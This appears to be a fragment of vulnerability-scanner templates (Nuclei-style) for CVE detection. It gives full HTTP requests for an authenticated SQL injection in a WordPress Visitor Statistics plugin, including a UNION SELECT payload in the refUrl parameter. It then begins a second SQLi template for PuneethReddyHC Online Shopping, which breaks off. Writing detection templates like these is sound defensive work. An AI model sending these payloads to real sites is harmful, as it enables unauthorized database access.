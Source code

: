 **Type - word**
- words
    1. qzvvqhWAAlCfTiMDmAoqzkTpJEzPwVFSaIpfAfdfTinrMqqxkq
- part - body

---
# WordPress Visitor Statistics (Real Time Traffic) <4.8 -SQL Injection
## Description
- WordPress Visitor Statistics (Real Time Traffic) plugin before 4.8 does not properly sanitize and escape the refUrl in the refDetails AJAX action, which is available to any authenticated user. This could allow users with a role as low as subscriber to perform SQL injection attacks.
- severity - high
- tags - authenticated,wpscan,cve,cve2021,sqli,wp,wordpress,wp-plugin
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/admin-ajax.php?action=refDetails&requests=%7B%22refUrl%22:%22'%20union%20select%201,1,md5({{num}}),4--%20%22%7D HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. {{md5({{num}})}}

**Type - status**
- status
    1. 200

---
# PuneethReddyHC action.php SQL Injection
## Description
- An unauthenticated SQL injection vulnerability exists in PuneethReddyHC Online Shopping through the /action.php prId parameter. Using a post request does not sanitize the user input.
- severity - high
- tags - cve,cve2021,sqli,injection
## Requests
- Method - POST
- Method - POST
### URL
